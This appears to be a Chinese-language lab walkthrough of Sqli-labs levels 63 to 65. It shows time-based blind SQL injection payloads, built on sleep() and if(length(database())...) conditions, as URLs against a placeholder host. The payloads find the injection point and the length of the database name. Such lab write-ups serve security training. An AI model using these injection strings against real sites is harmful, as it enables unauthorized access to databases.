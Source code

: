 **查找注入点**<br />http://www.web.com/sql/Less-63/?id=1' and sleep(2)--+<br />存在注入则延时2s，有延时，存在注入<br />![](https://img-blog.csdnimg.cn/20200728150851724.png#crop=0&crop=0&crop=1&crop=1&id=FKo8I&originHeight=113&originWidth=340&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断数据库名称长度**<br />http://www.web.com/sql/Less-63/?id=1' and if(length(database())=10,1,sleep(2))--+<br />当等于9或者11时都有延时，说明数据库名称长度为10<br />![](https://img-blog.csdnimg.cn/20200728151103261.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=cxu2O&originHeight=201&originWidth=361&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**此处使用时间注入所需要的的时间太长，不进行一一描叙**<br />时间注入详见Sqli-labs-Less-8


# Sqli-labs-Less-64
![](https://img-blog.csdnimg.cn/20200728151336226.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=xycLS&originHeight=487&originWidth=1099&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**本关对输入次数的限制为130次，通过次数可知，这一关是需要使用万恶的时间盲注**

**查找注入点**<br />http://www.web.com/sql/Less-64/?id=1)) and sleep(2)--+<br />存在注入则延时2s，有延时，存在注入<br />![](https://img-blog.csdnimg.cn/20200728151628913.png#crop=0&crop=0&crop=1&crop=1&id=VavCc&originHeight=130&originWidth=342&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断数据库名称长度**<br />http://www.web.com/sql/Less-64/?id=1)) and if(length(database())=10,1,sleep(2))--+<br />当等于9或者11时都有延时，说明数据库名称长度为10<br />![](https://img-blog.csdnimg.cn/20200728151701993.png#crop=0&crop=0&crop=1&crop=1&id=Nva3T&originHeight=194&originWidth=363&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**此处使用时间注入所需要的的时间太长，不进行一一描叙**<br />时间注入详见Sqli-labs-Less-8


# Sqli-labs-Less-65
![](https://img-blog.csdnimg.cn/20200728151859286.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=asWMp&originHeight=501&originWidth=1119&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**本关对输入次数的限制为130次，通过次数可知，这一关是需要使用万恶的时间盲注**

**查找注入点**<br />http://www.web.com/sql/Less-65/?id=1") and sleep(2)--+<br />存在注入则延时2s，有延时，存在注入<br />![](https://img-blog.csdnimg.cn/20200728152145434.png#crop=0&crop=0&crop=1&crop=1&id=eDe7x&originHeight=112&originWidth=337&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**判断数据库名称长度**<br />http://www.web.com/sql/Less-65/?id=1") and if(length(database())=10,1,sleep(2))--+<br />当等于9或者11时都有延时，说明数据库名称长度为10<br />![](https://img-blog.csdnimg.cn/20200728152412252.png#crop=0&crop=0&crop=1&crop=1&id=ps9fK&originHeight=186&originWidth=330&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**此处使用时间注入所需要的的时间太长，不进行一一描叙**<br />**时间注入详见Sqli-labs-Less-8**















